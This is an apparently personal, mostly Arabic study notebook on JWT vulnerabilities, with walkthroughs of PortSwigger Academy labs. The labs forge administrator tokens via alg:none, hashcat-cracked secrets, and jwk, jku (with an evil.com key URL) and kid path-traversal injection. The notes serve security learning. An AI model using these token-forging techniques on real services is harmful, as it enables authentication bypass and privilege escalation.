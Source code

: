 # JWT            


- <details>
    <summary>what is JWT?</summary>
  
  # 🔐 JWT Attacks - مقدمة
  
  ## ما هو JWT؟
  
  -   **JWT = JSON Web Token** → معيار لتمثيل البيانات كـ JSON بين
      الأنظمة.
  -   غالبًا يُستخدم في:
      -   **Authentication** (تأكيد هوية المستخدم)
      -   **Session management** (إدارة الجلسات)
      -   **Access control** (تحديد الصلاحيات)
  
  ------------------------------------------------------------------------
  
  ## بنية JWT
  
  يتكون JWT من **3 أجزاء** مفصولة بنقطة `.`:
  
  1.  **Header** → معلومات عن التوكن (الخوارزمية، النوع).
  2.  **Payload** → البيانات (claims) مثل اسم المستخدم والصلاحيات.
  3.  **Signature** → توقيع يعتمد على مفتاح سري للتحقق من عدم التلاعب.
  
  مثال:
  
      xxxxx.yyyyy.zzzzz
  
  ------------------------------------------------------------------------
  
  ## مثال عملي - Payload
  
  ``` json
  {
      "iss": "portswigger",
      "exp": 1648037164,
      "name": "Carlos Montoya",
      "sub": "carlos",
      "role": "blog_author",
      "email": "carlos@carlos-montoya.net",
      "iat": 1516239022
  }
  ```
  
  ### ملاحظات:
  
  -   **Readable**: أي شخص يقدر يفك البيانات لأنها Base64Url (ليست مشفرة).
  -   **Integrity**: التوقيع هو اللي يمنع التلاعب بالبيانات.
  
  ------------------------------------------------------------------------
  
  ## دور الـ Signature
  
  -   التوقيع يتكون من:
  
          HMACSHA256( base64UrlEncode(header) + "." + base64UrlEncode(payload), secret )
  
  -   عند استلام التوكن، السيرفر يتحقق من صحة التوقيع.
  
  -   أي تعديل في **Header** أو **Payload** يجعل التوقيع غير صالح.
  
  ------------------------------------------------------------------------
  
  ## نصائح عملية
  
  -   جرب على [jwt.io](https://jwt.io) → فك التوكن وشوف التغيير في
      التوقيع.
  -   استخدم أدوات مثل **Burp Suite** أو **jwt_tool** لاختبار ثغرات JWT.
  
  ------------------------------------------------------------------------
  
    
  </details>




- <details>
     <summary>JWT attacks</summary>

  
  # JWT Attacks Notes
  
  ## 1. JWT vs JWS vs JWE
  
  -   **JWT (JSON Web Token)**: مجرد Format قياسي للـ Tokens. ممكن يكون
      Signed أو Encrypted.
  -   **JWS (JSON Web Signature)**: JWT معمول له **توقيع** (Signature)
      باستخدام خوارزمية زي HS256 أو RS256 عشان يضمن سلامة البيانات.
  -   **JWE (JSON Web Encryption)**: JWT معمول له **تشفير** كامل عشان يحمي
      المحتوى من إنه يتشاف.
  
  ------------------------------------------------------------------------
  
  ## 2. كيف تظهر ثغرات JWT؟
  
  -   **ضعف في التحقق من التوقيع**:\
      مثال: السيرفر يقبل الـ "alg": "none" → يعني يعتبر الـ Token صالح من
      غير أي توقيع.
  
  -   **ضعف في اختيار الخوارزمية**:\
      مثلًا السيرفر متوقع RS256 (مفتاح عام/خاص) لكن يسمح بالتحويل إلى
      HS256 باستخدام المفتاح العام كـ secret.
  
  -   **تسريب الـ Secret**:\
      لو الـ Secret ضعيف أو متسرب، المهاجم يقدر يولّد توكنات صحيحة.
  
  -   **عدم التحقق من الـ Claims**:
  
      -   تجاهل الـ `exp` → التوكن يفضل صالح بعد انتهاء صلاحيته.
      -   تجاهل الـ `aud` → المهاجم ممكن يستخدم التوكن في تطبيق مختلف.
  
  ------------------------------------------------------------------------
  
  ## 3. Impact (التأثير)
  
  -   انتحال هوية المستخدمين (Authentication Bypass).
  -   سرقة صلاحيات (Privilege Escalation).
  -   وصول إلى بيانات أو عمليات محمية.
  
  ------------------------------------------------------------------------
  
  ## 4. مثال على JWT
  
  Header:
  
  ``` json
  {
    "alg": "HS256",
    "typ": "JWT"
  }
  ```
  
  Payload:
  
  ``` json
  {
    "sub": "1234567890",
    "name": "Alice",
    "admin": true,
    "exp": 1724252214
  }
  ```
  
  Signature:
  
      HMACSHA256(base64UrlEncode(header) + "." + base64UrlEncode(payload), secret)
  
  ------------------------------------------------------------------------
  
  ## 5. أمثلة على الهجوم
  
  ### 5.1 Algorithm None Attack
  
  ``` json
  {
    "alg": "none",
    "typ": "JWT"
  }
  ```
  
  → السيرفر يقبل التوكن بدون توقيع.
  
  ### 5.2 RS256 to HS256 Attack
  
  -   السيرفر متوقع RS256 (مفتاح عام/خاص).\
  -   المهاجم يغيرها إلى HS256 ويستخدم المفتاح **العام** كـ secret لتوليد
      توقيع صحيح.
  
  ------------------------------------------------------------------------
  
  # ✅ الخلاصة
  
  -   دايمًا تحقق من صحة الخوارزمية.
  -   لا تستخدم `none` algorithm.
  -   استخدم Secrets قوية أو مفاتيح صحيحة.
  -   راقب وصحّح Claims زي `exp`, `aud`, `iss`.
  
  

  </details>




- <details>
    <summary>JWT Attacks - Brute-forcing Secret Keys</summary>
    
    # JWT Attacks - Brute-forcing Secret Keys
    
    ## الفكرة الأساسية
    - بعض خوارزميات التوقيع مثل **HS256 (HMAC + SHA-256)** تعتمد على **secret key** (سلسلة نصية عشوائية).
    - لو الـ secret ضعيف أو قابل للتخمين (زي كلمة مرور ضعيفة)، المهاجم يقدر يعمل:
      - إنشاء JWT بأي header و payload.
      - إعادة التوقيع باستخدام الـ secret المخمَّن.
      - الحصول على توقيع صحيح وبالتالي تزوير الـ JWT.
    
    ---
    
    ## أخطاء شائعة من المطورين
    - نسيان تغيير الـ default/placeholder secret.
    - نسخ كود من الإنترنت ونسيان تعديل الـ hardcoded secret.
    - استخدام أسرار ضعيفة أو مشهورة.
    
    ---
    
    ## أداة Brute-force: Hashcat
    - **Hashcat** بيستخدم لمهاجمة مفاتيح JWT بسرعة.
    - موجود مسبقًا في **Kali Linux**.
    - لازم يكون عندك:
      - JWT صالح (موقَّع من السيرفر).
      - wordlist فيها أسرار معروفة.
    
    ---
    
    ## الأمر المستخدم
    ```bash
    hashcat -a 0 -m 16500 <jwt> <wordlist>
    ```

    https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list
    
    - ``-a 0`` → هجوم dictionary.
    
    - ``-m 16500`` → مود JWT HS256.
    
    - ``<jwt>`` → التوكن الهدف.
    
    - ``<wordlist>`` → قائمة .
    
    
    #### النتيجة
    
    > Hashcat بيجرب كل secret من الـ wordlist.
    
    لو لقى مطابقة، هيطبع بالشكل:
    
    ```ruby
    <jwt>:<identified-secret>
    ```
    
    لو شغلت الأمر أكتر من مرة، لازم تضيف:
    
    ```
    --show
    ```
    
    
    ```
    hashcat -a 0 -m 16500 <jwt> /usr/share/seclists/Passwords/JWT/jwt.secrets.list
    ```
    ---
    
    <details>
    
    ```
    python3 jwt_tool.py <jwt> -S hs256 -k <secret>
    ```
    
    ```python
    import jwt
    
    payload = {"username": "attacker", "role": "admin"}
    secret = "the_secret_you_found"
    
    token = jwt.encode(payload, secret, algorithm="HS256")
    print(token)
    ```
    
    
    
        
    </details>


  </details>






- <details>
    <summary>JWT header parameter injections</summary>

    # JWT Header Injection - JWK Parameter Exploit
    
    ## 📌 الفكرة العامة
    الـ **JWT** بيتكون من:
    1. **Header** → بيحتوي على معلومات زى `alg` (الخوارزمية) و ممكن كمان يحتوي على حاجات إضافية زى `kid`, `jwk`, `jku`.
    2. **Payload** → البيانات (claims).
    3. **Signature** → توقيع بيتعمل باستخدام secret أو مفتاح خاص (private key).
    
    السيرفر لما يستقبل الـ JWT بيستخدم الـ **Header** عشان يعرف:
    - أى خوارزمية تستخدم للتأكد من التوقيع (`HS256` / `RS256`).
    - أى مفتاح يجيب ويستخدم (من الـ `kid` أو `jwk` أو `jku`).
    
    ---
    
    ## 📌 التركيز هنا: `jwk` Injection
    - `jwk` = **JSON Web Key** → عبارة عن **مفتاح عام (Public Key)** مكتوب فى شكل JSON.
    - المفروض السيرفر عنده **قائمة محدودة** من المفاتيح اللى يثق فيها.
    - لكن لو السيرفر **مُسيء التهيئة (Misconfigured)**، ممكن يقبل أى مفتاح عام **موجود داخل التوكن نفسه** 🤦.
    
    ---
    
    ## 📌 إزاى نستغل ده؟
    1. نولد زوج مفاتيح (RSA Public/Private).
       - عندنا المفتاح **الخاص** (Private) → نوقع بيه التوكن.
       - عندنا المفتاح **العام** (Public) → نحطه جوه الهيدر فى باراميتر `jwk`.
    
    2. نعدل الـ Payload (مثلاً نغير `role` من `user` إلى `admin`).
    
    3. نوقع التوكن باستخدام **المفتاح الخاص بتاعنا**.
    
    4. نحط المفتاح العام جوه الهيدر:
       ```json
       {
         "alg": "RS256",
         "typ": "JWT",
         "jwk": {
           "kty": "RSA",
           "e": "AQAB",
           "n": "....",  
           "kid": "myCustomKey"
         }
       }
       ```
    
    5. لو السيرفر بيقبل ده → هيستخدم المفتاح العام اللى إحنا حاطينه ويتأكد من التوقيع، وده هيكون صحيح لأننا وقعنا بالمفتاح الخاص بتاعنا.  
       🔥 وده بيدينا **تحكم كامل فى التوكن**.
    
    ---
    
    ## 📌 الخطوات العملية (مثال باستخدام Burp + JWT Editor Extension)
    1. فى Burp → افتح تبويب **JWT Editor Keys**.
    2. اعمل **Generate RSA Key**.
    3. ابعت الريكوست اللى فيه JWT لـ **Repeater**.
    4. روح على تبويب الـ **JSON Web Token**.
    5. عدل الـ Payload (مثلاً غير `user":"test"` لـ `user":"admin"`).
    6. اضغط **Attack → Embedded JWK**.
    7. اختار المفتاح اللى انت مولده.
    8. ابعت الريكوست الجديد للسيرفر.
       - لو Misconfigured → هيديك access كأنك Admin.
    
    ---
    
    ## 📌 الخلاصة
    - **الـ jwk Injection** = بنخدع السيرفر يخلى باله من المفتاح العام بتاعنا.
    - إحنا نوقع بالتوكن بمفتاحنا الخاص.
    - السيرفر يتأكد باستخدام المفتاح اللى إحنا حطينه → فالتحقق يعدى.
    - النتيجة: نتحكم فى التوكن ونعدل أى Claims (زي role → admin).
    
    
    
    ---
    
    




  </details>
 







- <details>
      <summary>JWT header parameter injections lead to SSRF</summary>

    # Injecting self-signed JWTs via the `jku` parameter
    
    ## الفكرة الأساسية
    الـ JWT (JSON Web Token) أحيانًا بيحتوي في الـ header على باراميتر اسمه `jku`.  
    الـ `jku` ده بيشير إلى **رابط (URL)** بيحتوي على ملف JSON فيه **JWK Set** (مجموعة مفاتيح عامة) واللي السيرفر بيستخدمها للتحقق من التوقيع.
    
    بدل ما المفتاح العام يكون محطوط مباشرة في الـ token (زي ما بيحصل مع `jwk`)، السيرفر بيروح يجيب المفتاح من الرابط اللي في `jku`.
    
    ---
    
    ## JWK Set
    ملف JWK Set هو JSON بيحتوي على Array من المفاتيح العامة (JWKs).  
    مثال:
    
    ```json
    {
        "keys": [
            {
                "kty": "RSA",
                "e": "AQAB",
                "kid": "75d0ef47-af89-47a9-9061-7c02a610d5ab",
                "n": "o-yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9mk6GPM9gNN4Y_qTVX67WhsN3JvaFYw-fhvsWQ"
            },
            {
                "kty": "RSA",
                "e": "AQAB",
                "kid": "d8fDFo-fS9-faS14a9-ASf99sa-7c1Ad5abA",
                "n": "fc3f-yy1wpYmffgXBxhAUJzHql79gNNQ_cb33HocCuJolwDqmk6GPM4Y_qTVX67WhsN3JvaFYw-dfg6DH-asAScw"
            }
        ]
    }
    ```
    
    ممكن تلاقي السيرفر بيعرض الملف ده في لينك ثابت زي:
    ```
    /.well-known/jwks.json
    ```
    
    ---
    
    ## إزاي ممكن نستغل ده؟
    لو السيرفر بيثق في أي لينك بيتحط في `jku` (من غير فلترة كويسة):
    
    1. نولّد زوج مفاتيح RSA خاص بينا (Private + Public).
    2. نجهّز JWK Set يضم المفتاح **العام** بتاعنا ونرفعه على سيرفر نتحكم فيه (مثلاً `https://evil.com/jwks.json`).
    3. نولّد JWT جديد ونحط في الـ header:
       ```json
       {
         "alg": "RS256",
         "jku": "https://evil.com/jwks.json",
         "kid": "المفتاح_اللي_جهزناه"
       }
       ```
    4. نوقّع التوكن بالمفتاح **الخاص** اللي عندنا.
    5. السيرفر هيروح يجيب المفتاح العام من لينك `jku` اللي إحنا حاطينه (بتاعنا) وبالتالي يصدّق التوكن.
    
    بكده نقدر نزور أي claims جوة التوكن (مثلاً ندي نفسنا role = admin).
    
    ---
    
    ## طرق الحماية
    - السماح بتحميل المفاتيح من دومينات موثوقة فقط (whitelist).
    - تجاهل أي `jku` جاي من المستخدم.
    - التحقق إن الدومين مش متلاعب فيه (ضد SSRF/URL parsing tricks).
    - استخدام certificate pinning بدل ما يعتمد على جلب مفاتيح ديناميكياً.
    
    ---
    
    ## ملخص
    - `jku` = URL بيحتوي على مفاتيح عامة.
    - لو السيرفر مش بيفلتر اللينك → المهاجم ممكن يرفع JWK Set خاص بيه.
    - ده يسمح له يوقّع JWT بالتوكن بتاعه → السيرفر يصدّق إنه valid.
    - النتيجة = **تزوير JWT + تصعيد صلاحيات**.
    
        
  </details>







- <details>
     <summary>JWT kid path traversal</summary>

    # JWT Attack using `kid` Parameter
    
    ## 🔹 الفكرة الأساسية
    - الـ JWT بيكون له **header** (فيه معلومات عن الخوارزمية والـ key).
    - في بعض الأحيان، الـ header يحتوي على **`kid` (Key ID)** → السيرفر بيستخدم القيمة دي عشان يعرف أي مفتاح (key) يستعمل في التوقيع.
    - الطبيعي: السيرفر يجيب المفتاح من database أو JWK Set بناءً على قيمة الـ `kid`.
    
    ---
    
    ## 🔹 نقطة الضعف
    - **الـ `kid` مش محدد له structure** → مجرد string عشوائي بيحدده المبرمج.
    - لو المبرمج عمل lookup للـ key بشكل unsafe (مثلاً يروح يفتح ملف بنفس اسم الـ `kid`)، ممكن المهاجم يستغل ده.
    
    ### مثال
    ```json
    {
      "kid": "../../path/to/file",
      "typ": "JWT",
      "alg": "HS256"
    }
    ```
    - هنا المهاجم بيعمل **Directory Traversal** بالـ `kid`.
    - السيرفر يروح يقرأ أي ملف من الـ filesystem ويستخدمه كـ secret key.
    
    ---
    
    ## 🔹 الهجوم
    لو السيرفر بيقبل **خوارزمية symmetric زي HS256**:
    1. تختار ملف معروف موجود في السيرفر (مثلاً `/dev/null` على Linux).
    2. `/dev/null` → بيكون دايمًا **فاضي** → أي قراءة منه ترجع **string فاضية**.
    3. تعمل sign للـ JWT باستخدام **secret = "" (empty string)**.
    4. السيرفر يقرأ `/dev/null` → يرجع برضه empty string → يظن إن التوقيع صحيح ✅.
    
    ---
    
    ## 🔹 الصعوبة العملية
    - مشكلة: Burp JWT Editor ما بيسمحش تعمل signing بــ empty string.
    - الحل: **استغلال bug** → وقته ممكن تبعت Base64 encoded null byte بدل ما تبعت empty string. ده بيخدع الـ extension ويخلي التوقيع valid.
    
    ---
    
    ## 🔹 الخلاصة
    - أي مكان السيرفر **بيثق في `kid`** من غير validation → ممكن يتحول لسلاح ضد السيرفر.
    - مهاجم يوجّه السيرفر يقرأ ملف ثابت (زي `/dev/null`) أو ملف فيه key معروف → ويوقّع بنفسه JWTs صحيحة.
    - النتيجة: **تخطّي المصادقة (Authentication Bypass)** أو **تزوير الصلاحيات (Privilege Escalation)**.
    
    

  </details>
















































----



<details>
  <summary>Lab: JWT authentication bypass via unverified signature</summary>


1. login as **`wiener : peter`**

```http
GET /my-account?id=wiener HTTP/2

Host: 0a560020036c2252813698d200c400be.web-security-academy.net

Cookie: session=eyJraWQiOiI4MWIxYTBiYy01NWNlLTRjOTAtYTE1Yi02ZTY0MzM1MTljNTAiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc1NjQyMDU2OCwic3ViIjoid2llbmVyIn0.cLk9QduwU-eyT0xFZwd-BmYuNWJbfadMd_vHQ6IROuHznq-A5R4OvFo7VF_AfDKhOvKCLQxRtEYOdJ-1rGZGkMhYQk36FpGH5m2FTAzqZWT5h2fKiGUhYM8s5p3Pms6R6KNf1vFuKT4yJEs0e-EtpseOIMSQ6wFTpItZz6Pv21abFIETe-pq-2fcgFMfyQs5fzwLbc30IwBhOC-0X1_lJuQiRCXM7Yh3_WbTF5Cw68R5UTaKIIl0SbyKd9rrUCs4dHVZJtQhDLVHsiqUHcJZyewV8PIe8TZHH3Zc0jJYdOEqJck_8EP2Jd8Mrsg1dHMTsQHjgVPODAqz4oc5opnYlw
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a560020036c2252813698d200c400be.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers



```

### **`JWT`**

```json
eyJraWQiOiI4MWIxYTBiYy01NWNlLTRjOTAtYTE1Yi02ZTY0MzM1MTljNTAiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc1NjQyMDU2OCwic3ViIjoid2llbmVyIn0.cLk9QduwU-eyT0xFZwd-BmYuNWJbfadMd_vHQ6IROuHznq-A5R4OvFo7VF_AfDKhOvKCLQxRtEYOdJ-1rGZGkMhYQk36FpGH5m2FTAzqZWT5h2fKiGUhYM8s5p3Pms6R6KNf1vFuKT4yJEs0e-EtpseOIMSQ6wFTpItZz6Pv21abFIETe-pq-2fcgFMfyQs5fzwLbc30IwBhOC-0X1_lJuQiRCXM7Yh3_WbTF5Cw68R5UTaKIIl0SbyKd9rrUCs4dHVZJtQhDLVHsiqUHcJZyewV8PIe8TZHH3Zc0jJYdOEqJck_8EP2Jd8Mrsg1dHMTsQHjgVPODAqz4oc5opnYlw
```

- <details>
      <summary>jwt.io</summary>
 
     <img width="1183" height="326" alt="image" src="https://github.com/user-attachments/assets/48bc8145-7604-4124-987c-5add5170affa" />

  
   </details>


- <details>
      <summary>JWT editor burp</summary>

    <img width="732" height="713" alt="image" src="https://github.com/user-attachments/assets/9e106d7c-2521-4e54-98c5-3a348e5d417e" />

  
   </details>




<img width="741" height="125" alt="image" src="https://github.com/user-attachments/assets/554d6f72-cedc-4ccd-972f-4f2618b5b91c" />

<img width="1526" height="738" alt="image" src="https://github.com/user-attachments/assets/045c7041-0caf-4d5f-8838-4a11d70e3479" />


> change path to **`/admin`**

<img width="1498" height="657" alt="image" src="https://github.com/user-attachments/assets/24d92751-c0cb-4d14-ba46-0e5338441d7d" />

<img width="1356" height="557" alt="image" src="https://github.com/user-attachments/assets/0c504fb1-c66e-4c15-867b-9cf29892604e" />

<img width="1430" height="491" alt="image" src="https://github.com/user-attachments/assets/1e4b1cdc-88ad-4dd8-9c95-0d9023896589" />




  
</details>



<details>
    <summary>Lab: JWT authentication bypass via flawed signature verification</summary>

1. login as **`wiener : peter`**

<img width="747" height="613" alt="image" src="https://github.com/user-attachments/assets/49400493-6f82-4b6d-84ae-7872076d755e" />

> change **`algo`** to `none` and remove the signeture and change **``carlos``** to **``administrator``**

<img width="1505" height="731" alt="image" src="https://github.com/user-attachments/assets/6a59e0d7-bc8b-4d6c-bb91-b314fa9d88d4" />


> now change **`path`** to :

```http
GET /admin/delete?username=carlos HTTP/2
```

<img width="1505" height="734" alt="image" src="https://github.com/user-attachments/assets/4de7a1c3-ea34-4b8a-9a49-40a2b1d2d401" />

    
</details>







<details>
    <summary>Lab: JWT authentication bypass via weak signing key</summary>


```
eyJraWQiOiIwNjhlY2JkYy00YzQ2LTRlOWItODc5Zi02Y2QyZWVhNjNiZDAiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc1NjQyNDM0OCwic3ViIjoid2llbmVyIn0.c0YlOr9HLbE0Xuso36umnu2wiOsGd2BzArlCXI3_60M
```

<img width="742" height="614" alt="image" src="https://github.com/user-attachments/assets/45651d25-d4f7-434e-99d5-9667d0c0bcdb" />


```
hashcat -a 0 -m 16500 eyJraWQiOiIwNjhlY2JkYy00YzQ2LTRlOWItODc5Zi02Y2QyZWVhNjNiZDAiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc1NjQyNDM0OCwic3ViIjoid2llbmVyIn0.c0YlOr9HLbE0Xuso36umnu2wiOsGd2BzArlCXI3_60M /usr/share/seclists/Passwords/scraped-JWT-secrets.txt
```

<img width="1374" height="273" alt="image" src="https://github.com/user-attachments/assets/f9e1cded-604e-47a2-834f-157ba0aba4c7" />

```
secret1
```

<img width="1546" height="745" alt="image" src="https://github.com/user-attachments/assets/09176375-61b2-4e35-9181-8eab68b53d87" />

> now change **`path`** to :

```http
GET /admin/delete?username=carlos HTTP/2
```

<img width="1492" height="649" alt="image" src="https://github.com/user-attachments/assets/87127834-aeb3-4d22-b683-7c305bc7849e" />




    
</details>







<details>
    <summary>Lab: JWT authentication bypass via jwk header injection</summary>


```json
eyJraWQiOiJiZjFhOTg1Zi00NDgwLTQ1MmQtODQzZS0wMjIyMGUzZTg2YmYiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc1NjQyODc5MSwic3ViIjoid2llbmVyIn0.f2YN61RhTmuZSUdncWJi6PKVky_FYVsWfPW1ue50xJBGExuDmIpl7Ufhy8DlgGN_q2XWI0x5JG85bhoUcLc-8wed0RSPuu0P1C0g-f9naycBtAUDb_wNFCR7WdDSn-L8JJd8UWJS4-XAozvW9EFMk4q5D0YlfsCWPz2oe_JLKlvUug12MN3vRYp_wVgpzumwfAhrMowNNFpBOIjaBxc_hQXMmJ65qnqQD9h2lViue1PAPgXoHmLQUkl9qrvrEMTATCdlgQDFlmPAbgJxn4sVIDtTsi6cxLjaNnpip6fldEyexxSaE3U9x7rnrgTQf0k5vOrpxwtcgp_u1a6dmGPINg
```


<img width="737" height="568" alt="image" src="https://github.com/user-attachments/assets/2e653954-72a1-45bc-9d5f-e9ca6f2923c1" />


---

> genrate ``RSA key``

<img width="798" height="656" alt="image" src="https://github.com/user-attachments/assets/5150b333-3fb7-4639-ab77-3c8bbb26b8fe" />


<img width="742" height="675" alt="image" src="https://github.com/user-attachments/assets/e3a19886-667c-4798-a3dd-2721db6b47fa" />


---

> send the request

<img width="1544" height="635" alt="image" src="https://github.com/user-attachments/assets/4756464e-c1fc-4120-9c2d-b098c596c390" />


----

> now change the path 

```
/admin/delete?username=carlos
```

<img width="1498" height="671" alt="image" src="https://github.com/user-attachments/assets/e2a03383-f021-41df-81e0-ac7105e16b12" />



<details>

## 1. إيه المفروض يحصل (السليم)؟

```


لما السيرفر يستقبل JWT موقّع، لازم يتأكد من التوقيع باستخدام المفتاح الصحيح فقط (secret أو public key اللي هو مبرمج عليه).

المفروض السيرفر مايثقش في أي مفتاح جاي من الكلاينت.
```

---

## 2. الغلط في الـ jwk injection

```


في بعض السيرفرات (لو misconfigured) بيكون الكود مكتوب بحيث يقرأ jwk من الـ JWT نفسه.

يعني السيرفر بدل ما يكون عنده public key ثابت يتحقق بيه، بيقول:
"تمام، الكلاينت بعتلي المفتاح بتاعه في الـ jwk.. هستخدمه للتحقق من التوقيع".

هنا الغلط: السيرفر بيثق في أي RSA key يبعته المهاجم.
```



<img width="1536" height="1024" alt=" Image Aug 29, 2025, 03_05_28 AM" src="https://github.com/user-attachments/assets/069ba80b-1485-41da-a7d8-da7467611bca" />


    
</details>

    
    
</details>





<details>
    <summary>Lab: JWT authentication bypass via jku header injection</summary>

```
eyJraWQiOiJjZmRmYTMyMS00YWZiLTRiZDUtODVlMS1lOTc1ODE3OGM3MTkiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc1NjUxMDAzOSwic3ViIjoid2llbmVyIn0.s_HN8Ym6FyTityp_B97oktH_TDGl0asia1ZBLgOue250fh60YvGcsof55XD7UXBsrodedGLLL_ou60RKuneFFCHFH6LmoGaoDec-866Bgfn7FJNcEuv7gK6Ao6UD0KI-MomyiLC9aA2UJ4N1quA2H_FQjSYj3atSUgETRuQW6VROKuFEEfguFpe4Yn9SOxQbH4gBdHZi_u4oAl1NOwmI3x5RUTw90b9W6FvA3DJUeGUdIsE2RSejEqcgIhP3bjkP4mlh9_Q0m5J7DLpYGXB5_MAjcy064xGNTBMji3yHaIup0tBhcvmNCsZ7M8h9wysUaraRdWCq4LIVEv6wbPkbFA
```

<img width="748" height="718" alt="image" src="https://github.com/user-attachments/assets/3602e8cc-d8b6-4806-96ef-8a1cebb3ef8c" />

----

> ## first we need to create new **`RSA key`** :

<img width="1022" height="566" alt="image" src="https://github.com/user-attachments/assets/4ae83bd0-a868-45e9-9483-ae9c0bf6f933" />

> ## now do **`copy public key as jwk`** and put it on exploit server and click ``store``

<img width="629" height="258" alt="image" src="https://github.com/user-attachments/assets/2d7ac00d-d32b-41f5-ba7f-34877dd31b88" />

<img width="1335" height="375" alt="image" src="https://github.com/user-attachments/assets/fdfb45fa-4583-4b3a-b8b2-b58cd1edeaff" />

```json
{
    "keys": [
        {
    "kty": "RSA",
    "e": "AQAB",
    "kid": "4a39d446-dd24-4c7e-86b8-183a1ac079a0",
    "n": "tb58PeMrMiHDWHPlUgrCVJjiq0oR44e8DN5K0lyJR0pA0qpctF_3_vubDlUL7pkrviNdEeJuVRrvB5nJmGi_q78ahHm-4Ik6eH9r7KFhM22ki4VZFH-kvWMpCBAv_4P8-4Z21ZPhUjxFHAA_PxF0_WawIxgXpNcxm9n_bry2f2zjQg4NX8cA_-WxTR71n9B8BNWbSkcVk6jcmjhj9Q-N1dYbBi1kLjtWH1qqf08icrD5CQ1hV0gGc5x0gOk_6wNAT5pf1u6krvVnkzSHSkwyUAhV9fqjk7-KEfPJ2JCpIudj5WuJh-52m-Sf5fUc3owfpV_w8K-FBJmTDs_K2wg5OQ"
}
    ]
}
```

> ## now take the `"kid"` and `exploit server url`

```
4a39d446-dd24-4c7e-86b8-183a1ac079a0
```

```
https://exploit-0a1d00cb047f301a8160c9ac01d800dd.exploit-server.net/exploit
```

----

> ## change the header in burp suite:
> 1. put the new **`"kid"`**
> 2. set a new key **`"jku"`** with exploite server url
> 3. change user to **`administrator`**

<img width="809" height="695" alt="image" src="https://github.com/user-attachments/assets/10e4f9a0-7568-48eb-8373-3c23fa5170a8" />

```json
{
    "kid": "4a39d446-dd24-4c7e-86b8-183a1ac079a0",
    "alg": "RS256",
    "jku": "https://exploit-0a1d00cb047f301a8160c9ac01d800dd.exploit-server.net/exploit"
}
```

```json
{
    "iss": "portswigger",
    "exp": 1756510039,
    "sub": "administrator"
}
```


> click **`sign`** and send the request



<img width="1594" height="785" alt="image" src="https://github.com/user-attachments/assets/22276224-fe3a-4826-a350-da9a9c154296" />

> change path to **`GET /admin/delete?username=carlos HTTP/2`**

<img width="1521" height="758" alt="image" src="https://github.com/user-attachments/assets/73a69ba9-8e3e-4b91-8916-354155a84fbe" />

    
</details>











<details>
    <summary>Lab: JWT authentication bypass via kid header path traversal</summary>


```json
eyJraWQiOiJlZDZjYmIwYy03MDdhLTQ3MGYtYmYzOS01NjQwOTU3YTYwMGMiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc1NjUxMzY0Mywic3ViIjoid2llbmVyIn0.BwlNCmoE1ZZZu1eXcR_dMRjnfI-NFAvn_-RuVvEzfA0
```

<img width="745" height="680" alt="image" src="https://github.com/user-attachments/assets/147e9e71-80ea-4963-a97c-bb7aa416ecef" />


> ## now try to change **`"kid"`** to **``../../../../../dev/null``**

```json
{
    "kid": "../../../../../dev/null",
    "alg": "HS256"
}
```

> ## so the server will check if the **`k`** equel to the value in **`../../../../../dev/null`** so we need to put the **`k`** empty
> but burp refuse so we can put **``AA==``** instead this is null in base64

<img width="1073" height="591" alt="image" src="https://github.com/user-attachments/assets/4abb0c4a-435b-474f-8486-2d41e917a1af" />

> ## click **`sign`**
> - change user to **`administrator`**

<img width="737" height="568" alt="image" src="https://github.com/user-attachments/assets/4b61e028-0369-45d5-a187-b7035aad516c" />

> ## send the request



<img width="1530" height="759" alt="image" src="https://github.com/user-attachments/assets/652efa50-1b1c-4fe7-b134-a180a6ff4f6b" />

> change path to **`GET /admin/delete?username=carlos HTTP/2`**

<img width="1502" height="728" alt="image" src="https://github.com/user-attachments/assets/315c0911-891d-4e9b-82c1-28d8d0719f6d" />

    
</details>















